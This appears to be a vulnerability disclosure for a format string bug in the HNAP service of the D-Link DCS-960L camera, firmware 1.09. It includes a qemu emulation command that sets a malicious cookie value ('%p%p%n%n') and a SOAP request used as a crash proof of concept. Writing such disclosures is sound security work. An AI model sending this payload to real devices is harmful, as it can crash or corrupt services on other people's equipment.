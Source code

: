 # DCS-960L 1.09 format string vulnerability

## Product Info

**Supplier**: [Smart Home, SMB and Enterprise solutions | D-Link (dlink.com)](https://www.dlink.com/en)

**Router model**: DCS-960L

**Router Version**: 1.09

**Firmware**: [D-Link Technical Support (dlinktw.com.tw)](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L)



## Vulnerability introduction

​    There is a format string vulnerability in the sub_402280 function of the HNAP service of D-Link DCS-960L with firmware version 1.09, which can cause the service to crash.


![image](https://github.com/user-attachments/assets/847fe2f6-9602-4449-8579-a537b01c005d)


We use qemu user impersonation to verify.

```shell
qemu-mips-static -g 1337 -E REQUEST_METHOD=POST,SOAP_ACTION=1,CONTENT_LENGTH=404,COOKIE=uid=%p%p%n%n,HNAP_AUTH=1  -L . ./web/cgi-bin/hnap/hnap_service < info.txt
```

info.txt

```xml
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetDCHPolicy xmlns="http://purenetworks.com/HNAP1/"></SetDCHPolicy></soap:Body></soap:Envelope>
```

Single-stepping into the program will crash.

![image](https://github.com/user-attachments/assets/61719887-0ab5-4ad3-b1ad-b95ded5c1c3d)


## POC

```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetDCHPolicy xmlns="http://purenetworks.com/HNAP1/">
        </SetDCHPolicy>
    </soap:Body>
</soap:Envelope>
```





